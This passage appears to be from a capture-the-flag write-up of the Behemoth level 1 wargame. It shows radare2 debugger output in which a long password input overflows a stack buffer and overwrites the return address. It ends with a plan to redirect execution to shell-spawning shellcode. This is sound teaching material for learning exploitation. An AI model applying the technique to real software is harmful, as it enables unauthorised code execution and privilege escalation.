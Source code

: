 ```bash
0xffffd660  0000 0000 f0ef fef7                      ........
[0x08048469]> dc
Authentication failure.
Sorry.
```
We see our input gets placed starting at 0xffffd5bd. The program also ran as expected after we continued to the end. Let's re-run and this time input a larger string. Let's try 100 characters this time and see if this causes us to store memory past what's allocated for our input and into other stack variables.
```bash
[0xf7fd9be9]> ood
Wait event received by different pid 16565
Process with PID 16811 started...
File dbg:///behemoth/behemoth1  reopened in read-write mode
= attach 16811 16811
16811
[0xf7fdaa20]> dc
hit breakpoint at: 8048469
[0x08048469]> dc
Password: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
hit breakpoint at: 804846e
[0x08048469]> px 200 @ esp
- offset -   0 1  2 3  4 5  6 7  8 9  A B  C D  E F  0123456789ABCDEF
0xffffd590  add5 ffff 34d6 ffff 0070 fcf7 87c2 0000  ....4....p......
0xffffd5a0  ffff ffff 2f00 0000 c83d e2f7 a841 4141  ..../....=...AAA
0xffffd5b0  4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
0xffffd5c0  4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
0xffffd5d0  4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
0xffffd5e0  4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
0xffffd5f0  4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
0xffffd600  4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
0xffffd610  0000 0000 0000 0000 0070 fcf7 04dc fff7  .........p......
0xffffd620  00d0 fff7 0000 0000 0070 fcf7 0070 fcf7  .........p...p..
0xffffd630  0000 0000 a804 895c b8ea ce66 0000 0000  .......\...f....
0xffffd640  0000 0000 0000 0000 0100 0000 5083 0408  ............P...
0xffffd650  0000 0000 f0ef fef7                      ........
[0x08048469]> dc
Authentication failure.
Sorry.
child stopped with signal 11
[+] SIGNAL 11 errno=0 addr=0x41414141 code=1 ret=0
```
This time we got a segfault. We can see the register EIP (which is the location of current instruction) has a value of 0x41414141 (ASCII - AAAA). It appears we have overwritten the return address for the main function to be 0x41414141. It therefore jumped to that address but there are not any valid instructions at that address. 

The goal now is to determine how many 'A's is needed to change the return address. Once we determine that, we can change the return address to be an address of our choosing. By creating some shell code within the stack that opens up a shell using the file's creators file permissions, we can change the return address to point to that shell code which will cause it to execute. We will then be able to read the password for behemoth2. 

